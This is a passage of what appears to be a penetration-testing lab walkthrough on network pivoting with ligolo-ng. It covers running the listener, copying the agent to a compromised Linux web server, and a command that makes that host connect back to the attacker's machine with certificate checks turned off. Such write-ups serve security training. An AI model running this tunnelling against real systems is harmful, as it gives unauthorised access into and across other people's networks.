 Once you run this, the tool will start listening at port 11601 on all interfaces and you will get access to the tool's command line.

![](3.png)

Now we need to transfer the appropriate agent file to the host we've compromised using our preferred method of choice. In our scenario, that's a web server running Linux (don't forget to make the file executable after).

Now we can just run the following command to connect back to our attacking machine:

```shell
# The IP will be the IP of our Kali VM/attacking machine.
# The -ignore-cert ignores certificate validation so we don't have any issues with our self-signed certs.

./agent -connect 10.10.14.213:11601 -ignore-cert

```

![](4.png)

It may take a second for the connection to be established and when it is, we will see that an agent has joined. You can type `help` to access the help menu and check out what options you have for yourself.

Now we can enter `session` in ligolo-ng's interface, this will list all our sessions and we can specify the one we want either by number or using the arrow keys.

![](5.png)
